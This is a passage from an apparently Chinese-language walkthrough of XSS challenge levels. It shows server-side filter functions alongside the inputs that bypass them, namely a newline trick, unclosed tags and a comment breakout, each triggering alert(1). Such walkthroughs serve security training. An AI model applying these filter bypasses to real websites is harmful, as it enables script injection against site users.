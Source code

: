 HTML

```html
<!-- --!>
  <img src="" onerror=alert&#40;&#49;&#41;>
 -->
```

## 0x06

利用正则不匹配换行符的特性，使用换行绕过

Server Code

```js
function render(input) {
  input = input.replace(/auto|on.*=|>/gi, "_");
  return `<input value=1 ${input} type="text">`;
}
```

Input Code

```html
onclick =alert(1)
```

HTML

```html
<input value="1" onclick="alert(1)" type="text" />
```

## 0x07

利用 HTML 标签不闭合也能解析的容错机制，闭合掉前面的标签

Server Code

```js
function render(input) {
  const stripTagsRe = /<\/?[^>]+>/gi;

  input = input.replace(stripTagsRe, "");
  return `<article>${input}</article>`;
}
```

Input Code

```js
< /article
<img src="" onerror=alert(1)
<!--
```

HTML

```html
<article>< /article
<img src="" onerror=alert(1)
<!--</article>
```
